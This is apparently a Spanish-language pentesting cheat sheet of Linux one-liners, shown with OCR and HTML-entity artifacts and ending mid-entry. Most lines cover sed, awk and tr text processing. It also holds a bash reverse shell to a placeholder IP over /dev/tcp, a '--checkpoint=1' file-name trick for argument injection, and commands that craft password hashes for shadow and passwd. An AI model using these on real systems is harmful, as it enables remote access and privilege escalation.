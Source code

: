sed -n -e &#39;1x;1!H;${x;s-\n- -gp}&#39; fichero\_fuente \&gt; fichero\_destino

sed &#39;52!d&#39; nice\_list.txt --\&gt; muestra la linea 52 del archivo

Para tabular un CSV en una consola

column –s\&lt;delimitador\&gt; -t

Para reemplazar contenido en archivos ya creados.

sudo sed -i &#39;s/port=3389/port=3390/g&#39; /etc/xrdp/xrdp.ini

Para pasar de espacios a saltos de lineas (para hacer diccionarios)

sed &#39;s/ /\n/&#39;

tr &#39;r&#39; &#39;s&#39; -\&gt;reemplaza todas las r por s

tr -d &quot;r&quot; --\&gt;saca todas las r del contenido

cat xxx | tr [G-ZA-Fg-za-f] [T-ZA-St-za-s] --\&gt;para hacer rot13

Para discriminar la respuesta de una columna

awk &#39;{print $4 &quot; &quot; $5}&#39; --\&gt;muestra la columna 4 y 5

awk &#39;NF{print $NF}&#39; --\&gt; muestra la última columna

Para reemplazar el cat /proc/sys/net/ipv4/ip\_forward \&gt; 1

sysctl -w net.ipv4.ip\_forward=1

Para hacer conexión reversa.. se puede incluir en llamadas de pentesting (necesita tener un nc -lp \&lt;puertoreverso\&gt;)

bash -i \&gt;&amp; /dev/tcp/\&lt;ipreversa\&gt;/\&lt;puertoreverso\&gt; 0\&gt;&amp;1

Para crear un archivo con guiones antes (sirve para vectores de ataque con parametros)

echo &quot;&quot;\&gt; --checkpoint=1

Para crear password en shadow

mkpasswd -m sha-512 newpasswordhere

Para crear password en passwd

openssl passwd newpasswordhere

openssl passwd -6 newpass --\&gt;para crear contraseñas sha-512 $6$G

Para extraer páginas web de dump de datos.

cat file | grep -Eo &quot;(http|https)://[a-zA-Z0-9./?=\_-]\*&quot;\*

curl [http://host.xx/file.js](http://host.xx/file.js) | grep -Eo &quot;(http|https)://[a-zA-Z0-9./?=\_-]\*&quot;\*

Para copiar directamente a la clipboard la ip del tun0

alias miip=&#39;ip a | grep tun0 -B 3 | tail -1 | xargs | cut -d\/ -f1 | cut -d\ -f2 | tr -d &quot;\n&quot; | xclip -sel clip&#39;

Para extraer un pedazo de texto de una linea
